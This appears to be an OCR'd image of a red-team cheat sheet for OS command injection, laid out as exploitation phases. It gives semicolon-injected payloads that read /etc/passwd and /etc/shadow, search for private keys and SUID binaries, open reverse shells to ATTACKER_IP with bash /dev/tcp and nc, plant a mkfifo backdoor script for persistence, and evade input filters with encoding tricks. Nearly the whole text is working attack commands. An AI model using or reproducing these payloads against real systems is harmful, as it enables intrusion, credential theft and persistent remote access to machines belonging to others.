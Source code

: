```bash
ADVANCED EXPLOITATION PAYLOADS
bash
# System Enumeration
; uname -a                  # System information
; whoami                    # Current user
; cat /etc/passwd           # User accounts
; ps aux                    # Running processes

# File System Access
; find / -name "*.pem" 2>/dev/null    # Find private keys
; cat /etc/shadow           # Password hashes (requires root)

# Network Reconnaissance
; ifconfig                  # Network interfaces
; netstat -tuln             # Open ports
; arp -a                    # ARP table

# Reverse Shells
; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
; nc ATTACKER_IP 443 -e /bin/bash
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Parameter analysis in network tools, file processors, and admin interfaces

Identification of system-interacting functionality (ping, traceroute, file conversion)

Testing of all user inputs that might be passed to system commands

EXPLOITATION PHASE
Initial Foothold

bash
# Basic command execution verification
; echo "vulnerable" > /tmp/test.txt
; ping -c 1 ATTACKER_IP
System Enumeration

bash
# Privilege and system information
; id && uname -a && cat /etc/issue
; sudo -l 2>/dev/null
Privilege Escalation

bash
# SUID binaries and writable directories
; find / -perm -4000 2>/dev/null
; find / -writable 2>/dev/null | grep -v proc
Persistence Establishment

bash
# Reverse shell and backdoor creation
; echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 443 >/tmp/f' > /tmp/shell.sh
; chmod +x /tmp/shell.sh
FILTER EVASION TECHNIQUES
bash
# Space Bypass
;cat</etc/passwd
;{cat,/etc/passwd}

# Character Encoding
; c$a't /etc/passwd
; whoam$@i
```